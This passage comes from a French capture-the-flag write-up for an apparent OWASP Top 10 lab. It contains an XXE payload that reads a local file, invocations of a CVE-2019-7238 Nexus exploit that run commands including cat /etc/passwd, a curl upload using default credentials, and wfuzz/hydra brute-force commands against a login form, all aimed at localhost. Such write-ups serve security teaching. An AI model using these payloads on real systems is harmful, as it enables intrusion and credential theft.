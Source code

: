Nous pouvons donc obtenir le flag :
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/flag_xxe.txt"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&xxe;</lastName>
 </userInfo>
```

# Solution
## A06 - Composants vulnérables et obsolètes

Le serveur Nexus utilisé est vulnérable à la CVE 2019-7238. Nous pouvons donc l'exploiter avec le script suivant :

```bash
python3 CVE-2019-7238.py http://localhost:8081/ whoami
python3 CVE-2019-7238.py http://localhost:8081/ "cat /etc/passwd"
python3 CVE-2019-7238.py http://localhost:8081/ "cat /etc/flag.txt"
```

Nous obtenons le flag.

Si cela ne fonctionne pas il faut lancer cette commande :
```bash
curl -v -u admin:admin123 --upload-file /tmp/pom.xml http://localhost:8081/repository/maven-releases/org/foo/1.0/foo-1.0.po > /dev/null 2>&1
```

# Solution
## A07 - Identification et authentification de mauvaise qualité

Nous pouvons voir que nous avons SAP Connexion, c'est donc une connexion pour un serveur SAP. Nous avons une liste des utilisateurs par défaut ici : https://github.com/danielmiessler/SecLists/blob/master/Usernames/sap-default-usernames.txt
Nous pouvons donc lancer des attaques par force brute sur ces utilisateurs. Nous pouvons utiliser hydra ou des outils de fuzzing pour cela :
```bash
wfuzz -z file,/usr/share/wordlists/seclists/Usernames/sap-default-usernames.txt -d "username=FUZZ&password=test" http://localhost:8042/login.php
```

Avec hydra :
```bash
hydra -L /usr/share/wordlists/seclists/Usernames/sap-default-usernames.txt -p test -s 8042 localhost http-post-form "/login.php:username=^USER^&password=^PASS^:Nom d'utilisateur incorrect"
```
Nous pouvons voir que nous avons trouvé un utilisateur via ce fuzzing. Nous pouvons donc lancer une attaque par force brute sur les mots de passe.
